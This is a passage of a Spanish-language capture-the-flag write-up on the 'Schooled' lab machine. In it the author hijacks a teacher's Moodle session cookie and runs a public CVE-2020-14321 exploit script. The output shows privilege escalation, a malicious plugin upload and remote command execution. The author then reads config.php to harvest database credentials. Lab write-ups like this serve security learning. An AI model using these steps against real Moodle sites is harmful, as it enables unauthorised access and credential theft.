 Probemos ahora a **sustituir** la cookie en el navegador y refrescar la página para ver si nos hemos convertido en el profesor:

![image](https://user-images.githubusercontent.com/67548295/133829384-08d9c88c-6f01-4d76-a458-de7152a1ed66.png)

Perfecto.

Ahora ya tenemos más **privilegios**, y podemos intentar obtener acceso a la máquina.

Buscando exploit de este gestor de contenidos encuentro uno que **otorga un rol de administrador al profesor para luego abusar de un RCE**.

Ya que no conocemos ninguna versión, lo más viable es buscar exploits acordes con nuestra situación, es decir, siendo profesor.

Pruebo el exploit hecho por [Lanzt](https://github.com/lanzt/CVE-2020-14321){:target="\_blank"}{:rel="noopener nofollow"}:

```bash
┌──[z3r0byte@z3r0byte]─[~]
└──╼ $python3 CVE-2020-14321_RCE.py http://moodle.schooled.htb/moodle/ --cookie bcqfkajge5u6d5iiinkikfbmea
 __     __     __   __  __   __              __  __     
/  \  /|_  __   _) /  \  _) /  \ __  /| |__|  _)  _) /| 
\__ \/ |__     /__ \__/ /__ \__/      |    | __) /__  | • by lanz

Moodle 3.9 - Remote Command Execution (Authenticated as teacher)
Course enrolments allowed privilege escalation from teacher role into manager role to RCE
                                                        
[+] Login on site: MoodleSession:bcqfkajge5u6d5iiinkikfbmea ✓
[+] Updating roles to move on manager accout: ✓
[+] Updating rol manager to enable install plugins: ✓
[+] Uploading malicious .zip file: ✓
[+] Executing whoami: ✓

www

[+] Keep breaking ev3rYthiNg!!
```
Vemos que nos ha ejecutado un `whoami` exitosamente.

Ahora añadamos el parámetro `-c` para que nos ejecute un comando que nosotros le especifiquemos:

![image](https://user-images.githubusercontent.com/67548295/133834556-434377f5-89cb-43e4-894a-b503afe95b52.png)

Y... ¡hemos conseguido acceso al sistema!

---

Comienzo a **enumerar** el sistema.

Enumerando en el directorio del `Moodle` encuentro un archivo `config.php`:

```
~$ cat config.php

<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlXXXXXXXXXXX20';
$CFG->prefix    = 'mdl_';
```